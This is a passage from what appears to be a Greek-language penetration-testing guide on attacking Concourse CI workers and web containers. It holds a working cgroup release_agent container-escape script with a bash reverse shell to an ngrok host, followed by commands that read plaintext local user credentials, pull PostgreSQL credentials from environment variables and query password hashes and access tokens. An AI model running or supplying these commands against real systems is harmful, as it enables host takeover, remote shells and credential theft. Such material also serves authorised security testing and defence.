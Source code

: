 ```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -n 1`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```

#### Απόδραση στον κόμβο από τον δοχείο του Ιστού

Ακόμα κι αν το δοχείο του Ιστού έχει απενεργοποιημένες ορισμένες αμυντικές μηχανισμούς, δεν εκτελείται ως ένα κοινό προνομιούχο δοχείο (για παράδειγμα, δεν μπορείτε να κάνετε mount και οι δυνατότητες είναι πολύ περιορισμένες), οπότε όλοι οι εύκολοι τρόποι για να αποδράσετε από το δοχείο είναι άχρηστοι.

Ωστόσο, αποθηκεύει τα τοπικά διαπιστευτήρια σε καθαρό κείμενο:

```bash
cat /concourse-auth/local-users
test:test

env | grep -i local_user
CONCOURSE_MAIN_TEAM_LOCAL_USER=test
CONCOURSE_ADD_LOCAL_USER=test:test
```

Μπορείτε να χρησιμοποιήσετε αυτές τις πιστοποιήσεις για να **συνδεθείτε στον διακομιστή ιστού** και να **δημιουργήσετε ένα προνομιούχο container και να δραπετεύσετε στον κόμβο**.

Στο περιβάλλον μπορείτε επίσης να βρείτε πληροφορίες για να **αποκτήσετε πρόσβαση στην εγκατάσταση postgresql** που χρησιμοποιεί το concourse (διεύθυνση, **όνομα χρήστη**, **κωδικό πρόσβασης** και άλλες πληροφορίες για τη βάση δεδομένων):

```bash
env | grep -i postg
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_ADDR=10.107.191.238
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_PORT=5432
CONCOURSE_RELEASE_POSTGRESQL_SERVICE_PORT_TCP_POSTGRESQL=5432
CONCOURSE_POSTGRES_USER=concourse
CONCOURSE_POSTGRES_DATABASE=concourse
CONCOURSE_POSTGRES_PASSWORD=concourse
[...]

# Access the postgresql db
psql -h 10.107.191.238 -U concourse -d concourse
select * from password; #Find hashed passwords
select * from access_tokens;
select * from auth_code;
```